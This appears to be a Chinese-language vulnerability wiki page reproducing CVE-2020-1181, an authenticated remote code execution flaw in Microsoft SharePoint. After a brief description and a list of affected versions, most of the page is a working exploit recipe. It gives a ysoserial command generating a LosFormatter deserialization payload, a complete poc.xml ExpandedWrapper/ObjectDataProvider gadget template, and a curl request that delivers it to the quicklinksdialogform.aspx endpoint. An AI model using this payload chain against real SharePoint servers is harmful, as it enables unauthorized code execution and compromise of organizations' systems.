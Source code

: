 （CVE-2020-1181）Microsoft SharePoint 远程代码执行漏洞
======================================================

一、漏洞简介
------------

`SharePoint Portal Server`
是一套门户网站解决方案，使得企业能够便捷地开发出智能的门户网站，能够无缝连接到用户、团队和知识。因此用户能够更好地利用业务流程中的相关信息，更有效地开展工作。

当`Microsoft SharePoint Server`无法正确识别和过滤不安全的`ASP.Net Web`控件时，将会存在一处远程代码执行漏洞。成功利用此漏洞的远程攻击者(需要身份验证)通过创建特制的页面，可以在`SharePoint`应用进程池的上下文中执行任意代码。

二、漏洞影响
------------

Microsoft SharePoint Enterprise Server 2016Microsoft SharePoint Foundation 2010 Service Pack 2Microsoft SharePoint Foundation 2013 Service Pack 1Microsoft SharePoint Server 2019

三、复现过程
------------

    ysoserial.exe -g TypeConfuseDelegate -f LosFormatter -c cale.exe

![1.png](./resource/(CVE-2020-1181)MicrosoftSharePoint远程代码执行漏洞/media/rId24.png)

替换掉poc.xml内的payload

> Poc.xml

    <DataSet>
      <xs:schema xmlns="" xmlns:xs="http://www.w3.org/2001/XMLSchema" xmlns:msdata="urn:schemas-microsoft-com:xml-msdata" id="somedataset">
        <xs:element name="somedataset" msdata:IsDataSet="true" msdata:UseCurrentLocale="true">
          <xs:complexType>
            <xs:choice minOccurs="0" maxOccurs="unbounded">
              <xs:element name="Exp_x0020_Table">
                <xs:complexType>
                  <xs:sequence>
                    <xs:element name="pwn" msdata:DataType="System.Data.Services.Internal.ExpandedWrapper`2[[System.Web.UI.LosFormatter, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089" type="xs:anyType" minOccurs="0"/>
                  </xs:sequence>
                </xs:complexType>
              </xs:element>
            </xs:choice>
          </xs:complexType>
        </xs:element>
      </xs:schema>
      <diffgr:diffgram xmlns:msdata="urn:schemas-microsoft-com:xml-msdata" xmlns:diffgr="urn:schemas-microsoft-com:xml-diffgram-v1">
        <somedataset>
          <Exp_x0020_Table diffgr:id="Exp Table1" msdata:rowOrder="0" diffgr:hasChanges="inserted">
            <pwn xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
            <ExpandedElement/>
            <ProjectedProperty0>
                <MethodName>Deserialize</MethodName>
                <MethodParameters>
                    <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">这里放payload</anyType>
                </MethodParameters>
                <ObjectInstance xsi:type="LosFormatter"></ObjectInstance>
            </ProjectedProperty0>
            </pwn>
          </Exp_x0020_Table>
        </somedataset>
      </diffgr:diffgram>
    </DataSet>

通过 `curl -L -v --ntlm --negotiate "https://www.0-sec.org/_layouts/15/quicklinksdialogform.aspx?Mode=Suggestion" --data "viewstate=&__SUGGESTIONSCHACHE=urlencode(poc.xml)”`

![2.png](./resource/(CVE-2020-1181)MicrosoftSharePoint远程代码执行漏洞/media/rId25.png)

触发漏洞，执行命令
